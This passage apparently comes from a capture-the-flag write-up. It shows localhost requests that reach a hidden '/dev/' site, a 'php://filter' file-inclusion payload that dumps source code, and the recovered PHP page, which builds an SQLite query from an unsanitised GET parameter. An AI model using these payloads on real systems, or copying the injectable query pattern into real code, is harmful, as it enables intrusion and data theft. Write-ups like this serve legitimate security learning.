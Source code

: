 Directory traversal does not seem to be possible, but the server did not refuse to access files via localhost. Therefore, I suspected that some files under the webroot are only accessible from localhost. This was the case for the `server_status` page of apache, which was a rabbit hole. However, it was possible to also access files via `/dev/` by requesting `http://127.0.0.1/dev/`.

The website under `/dev/` includes an `about` page and a `todo` page that can be accessed as follows

```default
http://127.0.0.1/dev/?view=about
http://127.0.0.1/dev/?view=todo
```

The content of the `todo` page points towards a test page for sqlite that should be disabled. It is possible to include arbitrary files via `view` parameters, and PHP filters work as well. Therefore, I got the contents of that page by requesting `http://127.0.0.1/dev/?view=php%3a//filter/convert.base64-encode/resource%3dsqlite_test_page`. 

```html
<html>
<head></head>
<body>
<?php
$no_results = $_GET['no_results'];
$bookid = $_GET['bookid'];
$query = "SELECT * FROM books WHERE id=".$bookid;
if (isset($bookid)) {
   class MyDB extends SQLite3
   {
      function __construct()
      {
	 // This folder is world writable - to be able to create/modify databases from PHP code
         $this->open('d9e28afcf0b274a5e0542abb67db0784/books.db');
      }
   }
   $db = new MyDB();
   if(!$db){
      echo $db->lastErrorMsg();
   } else {
      echo "Opened database successfully\n";
   }
   echo "Query : ".$query."\n";

if (isset($no_results)) {
   $ret = $db->exec($query);
   if($ret==FALSE)
    {
	echo "Error : ".$db->lastErrorMsg();
    }
}
else
{
   $ret = $db->query($query);
   while($row = $ret->fetchArray(SQLITE3_ASSOC) ){
      echo "Name = ". $row['name'] . "\n";
   }
   if($ret==FALSE)
    {
	echo "Error : ".$db->lastErrorMsg();
    }
   $db->close();
}
}
?>
</body>
</html>
```